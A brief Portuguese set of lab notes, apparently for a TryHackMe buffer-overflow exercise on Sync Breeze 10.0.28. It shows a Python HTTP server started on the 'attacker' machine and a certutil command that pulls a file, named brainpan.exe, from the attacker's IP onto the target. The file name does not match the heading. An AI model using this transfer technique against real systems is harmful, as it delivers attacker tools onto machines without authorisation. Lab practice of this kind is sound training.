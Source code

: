 # Buffer Overflow Sync Breeze 10.0.28

**Sync Breeze 10.0.28**
http://www.syncbreeze.com/setups/syncbreezeent_setup_v10.0.28.exe

- Subir servidor na máquina do atacante
```python3 -m http.server (port)```

- Baixar o arquivo na máquina do THM
```certutil -urlcache -split -f http://ipdavpn:porta/brainpan.exe```
